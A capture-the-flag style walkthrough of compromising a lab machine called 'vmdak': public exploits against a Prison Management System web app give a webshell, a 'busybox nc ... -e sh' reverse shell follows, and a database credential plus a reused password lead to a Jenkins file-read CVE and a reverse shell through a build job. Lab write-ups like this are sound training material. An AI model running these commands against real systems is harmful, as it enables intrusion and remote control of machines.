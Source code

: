 # vmdak

i start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

The port 9443 says it's http but there is a SSL problem so we need to add the domain in etc hosts and request the website using https and then we see this:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

I look at some known exploits for this framework, click on admin dashboard and see this:

{% embed url="https://www.exploit-db.com/exploits/52017" %}

so i try it out:

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

and i manage to get in:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

the box is very laggy and i have to wait 5min + for one request so i will come back later

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ok so after looking for fast5 exploit me saw that this was called Prison Management System so i looked up known exploits that could lead to code execution and saw this article:

{% embed url="https://sploitus.com/exploit?id=PACKETSTORM:179737" %}

So i go and create a new user:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

and i capture the post request:

<figure><img src="../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

and we got ourselves a webshell:

<figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

and we manage to get a reverse shell with a busybox nc command:

```
busybox nc 192.168.45.245 80 -e sh
```

I try plenty of privesc but don't find anything so i suppose i need to pivot to user vmdak and start looking for credentials and find something in the database folder:

<figure><img src="../../../.gitbook/assets/image (262).png" alt=""><figcaption></figcaption></figure>

```
root:sqlCr3ds3xp0seD
```

but it's not the password of root so i guess that i need to enumerate some sort of mysql service?

```
mysql -u root -p
```

and then we find this password:

<figure><img src="../../../.gitbook/assets/image (263).png" alt=""><figcaption><p>RonnyCache001</p></figcaption></figure>

The only user is vmdak and root so i'll try for those users:

<figure><img src="../../../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

So it's the password of user vmdak, nice

ran some linpeas and pspy and found nothing but this seemed interesting:

<figure><img src="../../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

Ok so since i have ssh access to user vmdak i can redirect the jenkins server on my local port :

```
ssh -L 9999:127.0.0.1:8080 vmdak@192.168.212.103
```

So if i visit my [http://127.0.0.1:9999](http://127.0.0.1:9999) i'll see the jenkins server:

<figure><img src="../../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

So i tried accessing this CLI but failed so i looked at some file read vulns for jenkins:&#x20;

{% embed url="https://medium.verylazytech.com/cve-2024-23897-jenkins-file-read-vulnerability-poc-6a1dfdbfd6f2" %}

<figure><img src="../../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

and i manage to connect:&#x20;

<figure><img src="../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins" %}

So i create a random job that executes a reverse shell once it's build:

<figure><img src="../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

i save and build and get my shell:

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>
